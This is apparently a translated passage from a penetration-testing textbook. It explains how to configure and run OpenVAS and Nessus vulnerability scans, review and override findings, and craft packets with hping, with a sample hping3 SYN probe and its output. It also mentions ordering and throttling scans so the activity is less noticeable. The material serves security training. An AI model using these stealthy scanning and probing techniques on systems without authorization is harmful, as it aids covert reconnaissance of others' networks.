

要创建扫描配置，请单击屏幕左上角带有星星的小蓝色图标。系统会要求您为其提供名称，然后指示要从哪个基本模板开始。一个选项是空配置，我就是用它创建了MyScan，另一个选项是完整且快速。这包括所有NVT。因此，您可以从无到有构建，也可以从所有内容中精简。您会根据自己的操作知道如何考虑这个问题——从零开始构建，或从大量内容中精简。创建扫描后，您将拥有一个可使用的配置。创建过程简单到只需命名它并确定基础配置是什么。不过，您可能希望对其进行调整，以便运行与目标网络相关的测试。这并不意味着测试会盲目运行。OpenVAS会根据初始扫描的发现，决定运行哪些测试。当您准备选择要运行的不同测试时，需要编辑扫描配置。您将首先确定要启用的家族，从而决定运行哪些测试。您可以在图5.11中看到家族的部分列表。这里有一些需要考虑的要素。您不仅可以确定是否启用家族以及启用哪些NVT，还可以确定家族如何随NVT的添加而保持更新。您可以选择保持配置静态，也可以让OpenVAS在将新NVT添加到OpenVAS安装时启用它们。

### 图5.11 OpenVAS NVT家族



打开家族后，您将获得属于该家族的所有NVT列表。图5.12显示了属于防火墙家族的NVT列表。您会注意到，右侧有一个小蓝色扳手图标。单击它将弹出一个对话框，显示与该NVT相关的首选项可能位于哪里。例如，在防火墙NVT中，如果您不想使用默认值，可以更改超时值。此NVT列表允许您精确选择要包含在配置中的NVT。您不必拥有大型、笼统的配置。您可以根据正在测试的环境，专门定制扫描配置。

### 图5.12 OpenVAS NVT选择



此时，您拥有一个可以针对目标运行的扫描配置。这意味着您需要继续创建一个任务来为您运行扫描配置。您可以将其作为一次性任务或计划任务来完成。

## 运行扫描

需要牢记的一个重要观点是，运行扫描后，重点应放在为发现的任何漏洞制定修复计划上。运行扫描后忽略结果，可能比根本不运行扫描更糟糕。从责任角度来看，这意味着漏洞已被识别，也就是说它们是已知的，但却未采取任何措施。至少应进行一些分析，以便根据风险评估和公司政策，为每个漏洞记录响应措施。

## 扫描任务

扫描配置和目标是创建扫描任务所必需的。您可以在创建扫描任务时创建目标，它将像您单独进入目标配置一样持久存在。不过，扫描配置必须提前完成，除非您想使用预打包的扫描配置之一。进入扫描菜单并选择任务后，您将看到类似于图5.13中所示的内容。这表明已经运行过一次扫描。您运行的扫描越多，图表的变化就越大。

### 图5.13 OpenVAS任务



开始扫描时，您将在左上角看到一个带有星星的浅蓝色图标。将鼠标悬停在其上，然后单击新建任务。这将弹出对话框


如图 5.14 所示。从此处，您需要从下拉列表中选择目标。如果您尚未创建目标，可以单击蓝色星标图标来创建目标并保存它。您还可以根据严重程度或创建的过滤器创建警报。您将能够通过电子邮件、HTTP GET 请求、SMB、SNMP 或其他连接发送警报。您还需要选择扫描配置。这可以是您创建的配置之一，也可以是默认配置之一。

### 图 5.14 OpenVAS 任务创建



您可以为扫描创建计划，但默认情况下没有计划。任务将被创建，等待您启动它。使用计划，您可以让扫描以您希望的频率运行。您可能不希望它定期运行，或者您可能不想立即运行它。您可以告诉 OpenVAS 仅运行一次，如图 5.14 所示。

假设已配置目标，目标和扫描配置将被填充。扫描配置将使用列表中的第一个扫描配置进行填充。这两个配置元素是您需要确保检查的内容，因为它们是扫描中最重要且最相关的因素。

不过，这并不意味着没有其他值得查看的元素。如果您拥有大型网络和多个扫描器系统，您可能希望选择从哪个扫描器运行此操作。您还可以定义源接口，以防扫描器上有多个接口。您还需要确定扫描目标的顺序。这可能取决于您是否试图隐藏活动，以及您是否认为随机选择主机可能会让运行扫描的行为不那么明显。您还可以通过减少同时扫描的主机数量以及针对单个主机测试的并发 NVTs 的最大数量来帮助实现这一点。

要启动扫描，您需要查看任务列表并单击类似于音频或视频播放器启动按钮的绿色箭头。在您启动之前，扫描不会运行。仅创建扫描意味着您已为其设置参数。这并不意味着您已启动扫描。计划在此处很有用，因为 OpenVAS 会在您指定的时间为您启动扫描，而不是期望您自行启动。

## 扫描结果

扫描运行时，您可以监控扫描结果。此外，您还可以查看所有已完成的扫描并回顾历史漏洞。扫描仪表板将提供图表，用于可视化随时间变化的漏洞，以便您了解目标的安全态势是否在改善。您可以在图 5.15 中查看仪表板。您看到的是一些关注报告的图表。您无法从这些图表中看到所有扫描的漏洞情况。在此图的底部，您可以看到在此安装中已运行的两次扫描的摘要。即时扫描是使用任务向导完成的，这是启动扫描的快速入门方式。

### 图 5.15 OpenVAS 扫描仪表板


“扫描”菜单提供了查看结果的不同方式。我们将首先查看的方式是通过“结果”页面。该页面列出了所有扫描的所有结果。您还将获得更多图表。您可以在图 5.16 中看到结果列表及其附带的图表。这些图表很有趣，但结果列表中包含一些值得注意的信息。在第一列中，您将看到漏洞的简短名称。这应该为您提供足够的信息，让您基本了解漏洞是什么。至少，您将从漏洞名称中了解有关服务或设备的一些信息。

### 图 5.16 OpenVAS 结果列表



您还将获得其他有用信息。您将看到，在摘要之后是严重程度。严重程度值包括高、中和低。严重程度左侧是解决方案类型。此处示例中显示的都是供应商修复。您还可能看到缓解措施，这意味着如果漏洞被利用，有方法可以减轻其影响。您还可能看到没有可用的修复。虽然图 5.16 中显示的都是带有供应商修复的问题，但也发现了没有修复的问题以及具有缓解措施的问题。

严重程度右侧是显示为 QoD 的内容。这是检测质量，其含义是 OpenVAS 对漏洞是否为真阳性的确定程度。您将在该列中看到一些非常高的数字，针对一些明显的 macOS 漏洞。考虑到已识别的系统运行的是最新版 macOS，并且在扫描时已完全打补丁，这些高置信度数字具有误导性。要准确了解 OpenVAS 在做出判定时查找了什么，需要查看与已识别漏洞关联的 NASL 文件。

在最右侧列中，您可以访问操作，如图 5.17 所示。由于只要实例存在，这些报告就会保留在 OpenVAS 中，您可能希望对发现内容进行必要的更改。如 macOS 发现的情况所示，我可以添加一个覆盖。如前所述，并非每个发现都与 OpenVAS 显示的完全一致。例如，其中一些可能是假阳性。您可以使用覆盖将发现的严重程度更改为假阳性。您可以在图 5.17 中看到允许您设置覆盖参数（包括将严重程度设置为假阳性）的对话框。

### 图 5.17 设置覆盖



当然，假阳性不是您可以更改的唯一严重程度。您可以提高或降低严重程度。您可能比 OpenVAS 了解更多信息，尤其是如果您为被测试公司工作，或者与其密切合作，而不是作为严格的对手。如果已有缓解措施，您可能会希望降低严重程度。也可能有理由提高 OpenVAS 提供的严重程度。毕竟，这是一个通用发现，有时由软件供应商提供。

如果您想更改的不是严重程度，也可以在覆盖中设置其他参数。如果您要覆盖严重程度，您可能还想添加一个注释，说明更改的内容及其原因。这样，任何有权访问 OpenVAS 的人都可以审查所做的更改并了解更改原因。除了更改严重程度等参数外，您还可以为每个发现添加注释。这是“操作”列下的另一个图标。

使用注释和覆盖，您在一定程度上可以将 OpenVAS 用作漏洞管理工具，而不仅仅是漏洞扫描器。您可以将其用于历史目的，以识别已知漏洞或更改不同参数。这些存储的信息可能很有用，因为任何负责保护系统和网络的人都将不断与漏洞作斗争。历史信息，尤其是缓解措施以及为修复漏洞所做的工作，对安全专业人员将非常有用。

## Nessus

Nessus 是 OpenVAS 的源头产品，因此值得研究，尤其是为了了解它与 OpenVAS 所走路径的分歧。尽管 Nessus 是商业产品，但有一个家庭许可证，允许您在家庭网络上使用它来与 OpenVAS 进行比较，并了解漏洞扫描的另一种方法。登录后，您将进入扫描列表，起初该列表为空。要启动扫描，您需要单击“新建”按钮，该按钮将带您进入可用的不同扫描策略列表。您可以在图 5.18 中查看 Nessus 内置的一些扫描策略。您会在一些扫描策略上看到“升级”字样。这意味着这些扫描策略仅在商业版中可用，而不在家庭许可证中可用。

### 图 5.18 Nessus 中的扫描策略




如果我们选择 Basic Network Scan 作为起点，就可以开始选择目标，然后进行自定义。图 5.19 显示了 Basic Network Scan 的配置设置。你会在第一个屏幕中看到你需要提供扫描名称。请记住，你在这里正在创建一个配置，并且可以多次运行该配置。每次运行都会关联一个时间戳，因此你不需要将自己的日期和时间作为名称的一部分。你希望给它起一个对你有意义的名称，以便能够将此配置与其他配置区分开来。

### 图 5.19 扫描配置设置



例如，你可能有一个配置，其中包含特定的凭证集。图 5.20 显示了凭证的配置。你会看到，你可以为主机身份验证创建 SSH 和 Windows 凭证。对于每种类型，你都可以创建多个配置。你可以对某些系统使用 SSH 密钥身份验证，还可以设置需要使用用户名和密码的身份验证选项。根据界面，SSH 和 Windows 的凭证数量可以是无限的。要创建另一组凭证，行末有一个指示凭证类型的按钮。

除了主机凭证外，你还可以为数据库、杂项和纯文本设置身份验证凭证。最后一类适用于 HTTP、FTP 和 SMTP 等协议。杂项提供 VMware 和 Palo Alto 防火墙的设置。这使得 Nessus 能够检查各种应用程序和设备中的本地漏洞。

### 图 5.20 凭证配置设置



除了凭证外，你还可以配置要运行的插件。你可以通过点击顶部的 Plugins 标签页来访问插件。回头看图 5.19，你会看到左侧垂直排列的一组标签页。这不仅让你能够访问可见的基本标签页，还能让你访问发现、评估、报告和高级配置。Discovery 标签页让你确定要在网络上进行的发现类型，也就是说，它让你设置端口扫描参数。默认情况下，端口扫描将针对常用端口运行。你可以选择让它针对所有端口运行，这可能意味着你可以发现其他漏洞，或者至少发现一些你意想不到的端口。

Assessment 标签页允许你设置 Nessus 关于 Web 漏洞扫描的参数。默认情况下，Nessus 不会扫描 Web 漏洞。你可以设置不同级别的 Web 漏洞扫描。Assessment 下还有一个重要的设置。默认情况下，Nessus 会限制发现的误报数量。应当注意，此处提到的所有设置都位于 Basic Network 扫描策略中。其他扫描策略将有不同的设置，其中一些你可以更改。为了访问所有设置，你应该使用高级扫描，在那里所有设置都公开并且可以更改。

Report 标签页允许你调整报告的详细程度。你可能希望限制提供的详细信息数量，使报告中的信息保持在最低限度。默认情况下，Nessus 报告非常全面。每个发现都将包含有关漏洞及其严重程度、与漏洞关联的参考文献以及潜在修复措施的详细信息。包含足够详细信息以便对 Nessus 不太熟悉的人也能看懂，可能会占用大量空间。

扫描运行时，尤其是在扫描完成后，你将能够查看结果。最初，当你在“我的扫描”下点击扫描名称打开扫描时，你将看到所有漏洞的列表。你可以在图 5.21 中看到一个部分列表。在已识别漏洞列表旁边，你会看到一个所有已识别漏洞的图表，以指示哪些类别的漏洞最多。在所示扫描中，绝大部分是信息性消息，而数量第二多的漏洞属于中等严重程度类别。

### 图 5.21 扫描结果列表



主机列表按 Nessus 识别的问题总数排序，但并非所有发现都是漏洞，因为还有信息性项目，它们不是漏洞。Nessus 在网络上总共识别了 50 台主机，IP 地址以 .52 结尾的主机在扫描时基于 Nessus 已知的漏洞拥有最多的漏洞数量。这并不是说没有其他 Nessus 可能不知道的漏洞。也存在漏报的可能，也就是说，尽管扫描主机上存在某个已知漏洞，Nessus 却未识别出它。在右侧列中，你会看到一个百分比。这个百分比表示 Nessus 认为针对该主机的扫描完成度。此快照是在扫描过程中拍摄的。

页面顶部有三个标签页。第一个标签页，也是首先显示的，是主机列表。如前所述，该列表按漏洞总数排序。第二个标签页是漏洞数量。该列表按发现的严重程度排序。关键问题排在最前面，然后是高危、中危，依此类推。对网络中主机的一次扫描识别出两个不同的关键问题。其中一个与 Mozilla 基金会的软件有关。根据 Nessus，目标主机上安装了 Thunderbird 或 Firefox，但已安装的版本不再受支持。第二个问题涉及 macOS 系统。已安装的操作系统版本比当前最新版本低一个版本。图 5.22 显示了与 Mozilla 漏洞相关的详细信息。

### 图 5.22 发现详情



在输出中，你会看到发现的描述。你也会看到解决方案，即升级到受支持的版本。下方是其他网站的参考，可以提供有关该问题的更多详细信息。参考网站下方是来自扫描插件的详细信息。这显示了发现的应用程序版本以及当前可用的应用程序版本。这显示已安装的版本落后五个版本，而 Mozilla 基金会当前可用且受支持的版本是 61.0。在这个输出中你看不到的是第二个发现此问题的主机的 IP 地址。为简洁起见，只显示了一个 IP 地址。

顶部还有一个名为 Remediations 的标签页。这提供输出，指示如何修复某些已识别的漏洞。你会在图 5.23 中看到，所识别的四个修复措施都与升级到最新版本的软件有关，包括在一种情况下更新正在使用的操作系统版本。

### 图 5.23 修复列表

| 操作 | 漏洞数 | 主机数 |
| :--- | :--- | :--- |
| Mozilla Firefox < 61 多个关键漏洞 (macOS): 升级到 Mozilla Firefox 版本 61.0.0 或更高版本。 | 198 | 2 |
| Wireshark 2.2.x < 2.2.15 / 2.4.x < 2.4.7 / 2.6.x < 2.6.1 多个漏洞 (macOS): 升级到 Wireshark 版本 2.2.15 / 2.4.7 / 2.6.1 或更高版本。 | 36 | 1 |
| macOS: Apple Safari < 11.1.2 多个漏洞: 升级到 Apple Safari 版本 11.1.2 或更高版本。 | 16 | 1 |
| Google Chrome < 68.0.3440.75 多个漏洞: 升级到 Google Chrome 版本 68.0.3440.75 或更高版本。 | 2 | 1 |

如前所述多次，严重程度会有所不同，仅仅因为 Nessus 认为某个严重程度应该处于某个级别，并不意味着你（基于你对所处环境的了解）会同意。你可以在 Nessus 中创建规则，以便与某些主机相关联的发现可能会自动重新分类。这可以从主视图左侧导航框架中的 Plugin Rules 标签页完成。图 5.24 显示了 Plugin Rules 设置对话框的外观。你可以指定主机，也可以将该字段留空以应用于所有主机。你需要指定规则适用的插件 ID。在所有用于识别规则适用对象的参数就绪后，你只需设置要关联的严重程度，Nessus 将处理其余事项。

### 图 5.24 插件规则设置



与 OpenVAS 不同，Nessus 不提供为发现添加注释的方法。不过，你可以得到一项 OpenVAS 没有的功能，即审计跟踪。你可以按插件 ID 和主机搜索，并获取有关运行的插件的更多详细信息。例如，


搜索关键macOS过期发现中的插件ID，会显示Nessus无法识别操作系统的主机、Nessus已识别操作系统但不是macOS的主机、以及操作系统正确但版本号不正确的IP地址，这意味着运行插件后没有产生发现。

与OpenVAS类似，Nessus使用网络攻击脚本语言（NASL）脚本。它们与Nessus安装的其他部分一起存储。在Windows上，安装位于Program Files目录中。在Linux上，文件存储在/opt/nessus中，插件在/opt/nessus/lib/plugins中。如果您想确切了解插件的功能以便验证发现，应检查脚本。可以使用插件ID来识别为该插件运行的文件。一旦您习惯于阅读脚本，它将提供复制漏洞测试的详细信息，以便您可以进行验证。此验证不仅对于排除误报很重要，而且如果它确实是一个漏洞，您需要有文档来展示给您正在合作的公司或组织。

漏洞扫描只是测试的一个阶段。它不是终点。漏洞应始终进行验证。此外，如果您被期望识别尽可能多的漏洞，则需要利用这些漏洞，希望识别出更多。虽然这可能需要使用像Metasploit这样的漏洞利用工具，甚至是定制开发的工具，但您可能需要创建一个看起来特定方式的数据包。不过，无论发现结果是什么，在将其作为发现提出之前都需要验证。

## 数据包构建与操纵

在通过网络发送数据时，数据在离开系统上的网络接口之前遵循一条清晰的路径。我们在讨论开放系统互连（OSI）模型时，在某种程度上已经介绍过这一点。假设您正在访问一个网页。您在地址栏中输入一个URL。您的浏览器获取输入并创建需要发送到服务器的HTTP请求头。为了简化，我们将跳过加密部分，仅讨论完整数据包是如何组装的。

应用程序向操作系统发出请求，以与服务器建立连接。这会触发操作系统使用应用程序提供的信息构建数据包。这包括主机名或IP地址以及端口号。除非另有说明，端口号将默认为80或443，具体取决于通信是HTTPS还是HTTP。此信息将允许操作系统为TCP和IP（第4层和第3层）创建所需的头部。

这一切意味着，应用程序基于用户交互发起请求。它遵循一条清晰的路径，放入每个协议所需头部的信息是连贯的，并且可以轻松追溯到信息的原始来源。不过，有时您可能需要发送不遵循连贯路径的数据。您可能需要使用通常不会出现在头部字段中的数据来操纵头部。每个头部字段都是已知大小且为二进制，这意味着例如您不会发送一个字符而不是数字。在网络头部中，肯定是第4层及以下，没有任何数据会经过ASCII解码以转换为字符数据。

有许多工具可以用来构建或以其他方式操纵头部数据。其中一些是专门用于创建看起来您想要的样子的数据包的。例如packETH，它使用GUI让您设置字段。其他工具具有其他用途，允许您以其他方式与目标系统交互，否则您可能需要自己编写程序才能实现。像hping这样的工具将允许您基于命令行参数构建数据包。使用像hping这样的工具，您可以评估来自系统的响应。最后，您可能想要使用一组规则来畸形数据包，这将测试操作系统的网络堆栈，以查看它是否能处理构建不当的数据包。

### hping

开发者认为hping程序是TCP/IP数据包的瑞士军刀。您可以将其用作简单的ping程序，发送ICMP回显请求。由于hping主要是一个数据包构建程序，允许您使用所需的头部设置通过不同协议发起连接，默认模式可能对您效果不佳。默认情况下，如果您不指定目标主机或IP地址以外的任何内容，hping将使用变化的源地址向目标的端口0发送消息。地址0本质上是无效的目标，因为它被视为保留地址且没有用途。您不应该从正在发送流量的系统中收到任何响应。如果收到，目标主机确实违反了协议。虽然hping为此使用TCP，但端口0对UDP和TCP都无效。

您可以将hping用作ping程序的替代品，通过使用 -1 参数调用它，这意味着您正在使用ICMP模式，也可以创建到特定端口的连接。您将获得与ping程序相同的行为，即获得系统的“活跃性”和往返时间。不过，您将获得更详细的信息，因为您将知道特定服务是否正在运行。如果您正在针对应用程序进行测试，这可能很有用。您可能想知道服务何时失败。除了往返时间外，您还将从响应中获得大量详细信息。您可以在以下代码列表中看到针对目标系统上的Web服务器运行hping3的示例。

### 向目标系统发送SYN消息

```
root@quiche:~# hping3 -S -p 80 192.168.86.1
HPING 192.168.86.1 (eth0 192.168.86.1): S set, 40 headers + 0 data bytes
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=0 win=29200 rtt=7.9 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=1 win=29200 rtt=7.9 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=2 win=29200 rtt=7.6 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=3 win=29200 rtt=7.5 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=4 win=29200 rtt=7.3 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=5 win=29200 rtt=3.0 ms
len=46 ip=192.168.86.1 ttl=64 DF id=0 sport=80 flags=SA seq=6 win=29200 rtt=2.8 ms
